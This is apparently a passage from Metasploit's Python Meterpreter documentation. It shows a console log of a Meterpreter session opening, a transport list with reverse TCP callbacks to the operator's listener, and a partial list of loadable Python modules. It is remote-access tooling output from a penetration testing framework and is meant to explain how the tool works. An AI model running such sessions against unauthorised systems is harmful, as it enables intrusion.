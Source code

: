 When this payload is executed, the transport is added and shown to be present in the transport list immediately:
```msf
msf exploit(handler) > [*] Meterpreter session 2 opened (172.16.52.1:4445 -> 172.16.52.247:49159) at 2015-12-13 11:06:54 +1000

msf exploit(handler) > sessions -i -1
[*] Starting interaction with 2...

meterpreter > transport list
Session Expiry  : @ 2015-12-20 11:06:52

    ID  Curr  URL                     Comms T/O  Retry Total  Retry Wait
    --  ----  ---                     ---------  -----------  ----------
    1         tcp://127.0.0.1:8000    300        3600         10
    2   *     tcp://172.16.52.1:4445  300        3600         10
```

## FAQ
## Currently Loadable Native Libraries

```
__future__
__phello__
_abcoll
_osx_support
_pyio
_strptime
_threading_local
_weakrefset
abc
aifc
antigravity
argparse
asynchat
asyncore
atexit
audiodev
base64
BaseHTTPServer
Bastion
bdb
binhex
bisect
calendar
cgi
CGIHTTPServer
cgitb
chunk
cmd
code
codecs
codeop
collections
colorsys
commands
compileall
compiler
compiler.ast
compiler.consts
compiler.future
compiler.misc
compiler.pyassem
```